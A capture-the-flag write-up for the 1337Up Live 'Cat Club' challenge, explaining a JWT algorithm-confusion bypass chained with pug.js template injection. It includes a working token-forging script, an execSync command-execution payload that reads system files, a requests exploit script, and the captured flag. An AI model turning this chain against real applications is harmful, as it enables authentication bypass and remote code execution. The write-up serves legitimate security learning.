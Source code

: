 # 1337Up Live CTF

## Cat Club

> https://ctfd-status.ctf.intigriti.io/catclub

JWT algorithm confusion & pug.js SSTI.

## Approach

After registering, noticed `/cats` page will displays the user's username, we can find a SSTI vulnerability in the source code.

```js
if (typeof req.user != "undefined") {
  template = template.replace(/guest/g, req.user);
}
```

The regular registration method does not allow non-numeric and alphabetic characters. Consider constructing a JWT token with the username as the payload directly.

`/jwks.json` leaks the publicKey, and the server's function for verifying JWT is:

```js
function signJWT(payload) {
  return new Promise((resolve, reject) => {
    jwt.encode(privateKey, payload, "RS256", (err, token) => {
      if (err) {
        return reject(new Error("Error encoding token"));
      }
      resolve(token);
    });
  });
}

function verifyJWT(token) {
  return new Promise((resolve, reject) => {
    if (!token || typeof token !== "string" || token.split(".").length !== 3) {
      return reject(new Error("Invalid token format"));
    }

    jwt.decode(publicKey, token, (err, payload, header) => {
      if (err) {
        return reject(new Error("Invalid or expired token"));
      }

      if (header.alg.toLowerCase() === "none") {
        return reject(new Error("Algorithm 'none' is not allowed"));
      }

      resolve(payload);
    });
  });
}
```

RSA's private key cannot be obtained, but the above verification has an JWT algorithm confusion vulnerability. We can create a signature using the publicKey and HS256 algorithm by ourselves. At this point, the server's verification logic is still using publicKey to verify, but the algorithm has been specified as HS256, so it can pass. The code to generate the token is:

```js
const fs = require("fs");
const jwt = require("json-web-token");
const jwkToPem = require("jwk-to-pem");

// const publicKey = fs.readFileSync("public_key.pem", "utf8");

const publicKey = jwkToPem({
  kty: "RSA",
  n: "w4oPEx-448XQWH_OtSWN8L0NUDU-rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpathL1zf3_Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQzYcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnRfT5HJjSRu_JmGlYCrFSof5p_E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t8opUrLbrJYoWFeYZOY_Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ-Hdw",
  e: "AQAB",
  alg: "RS256",
  use: "sig",
});

function signJWT(payload) {
  return new Promise((resolve, reject) => {
    jwt.encode(publicKey, payload, "HS256", (err, token) => {
      if (err) {
        return reject(new Error("Error encoding token"));
      }
      resolve(token);
    });
  });
}

signJWT({
  // username: "#{global.process.mainModule.constructor._load('child_process').execSync('ls /').toString()}"
  username:
    "#{global.process.mainModule.constructor._load('child_process').execSync('cat /flag_Gx4wVbEc1fxN9ztM.txt').toString()}",
}).then((token) => {
  console.log(token);
  fs.writeFileSync("token.txt", token);
});
```

Exploit:

```python
import requests

url = f"https://catclub-2.ctf.intigriti.io/cats"

with open("catclub_exp/token.txt") as f:
    token = f.read().strip()
resp = requests.get(url, cookies={"token": token})

# print(resp.text)
print(resp.text.split('alt="Club Logo"></nav></header><div class="content"><h1>')[1])
```

## Flag

```
INTIGRITI{h3y_y0u_c4n7_ch41n_7h053_vuln5_l1k3_7h47}
```
